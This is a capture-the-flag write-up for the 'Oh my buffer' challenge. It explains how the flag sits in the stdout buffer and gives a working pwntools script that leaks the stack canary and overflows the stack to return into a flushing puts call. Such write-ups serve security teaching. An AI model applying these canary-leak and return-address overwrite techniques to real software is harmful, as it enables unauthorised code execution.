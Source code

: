 # Oh my buffer

## Idea

The main idea behind the "Oh my buffer" challenge is to use the `stdout` buffer to hold the flag and force the user to force a flush with a small attack surface.

In addition, the program was forked after printing the flag to `stdout` in order to obscure the win vector.

## Solution

The intended way to complete the challenge was to use the existing call to `puts` in `main` in order to flush the buffer via a stack overflow in `reg`.

In order to bypass stack overflow detection, the canary could be leaked from the `login` function.

## Script

```python
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF("./binary.out")
io = connect("chals.swampctf.com", 40005)

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b": ", b"32")
io.sendafter(b": ", b"A")

io.recvuntil(b": ")
io.recvn(24)

canary = u64(io.recvn(8))
log.success(f"Found canary: 0x{canary:x}")

io.sendlineafter(b"> ", b"1")
io.sendlineafter(b": ", b"a")

payload = flat({24: canary, 40: p16(0x1469)})

io.sendafter(b": ", payload)
io.interactive()
```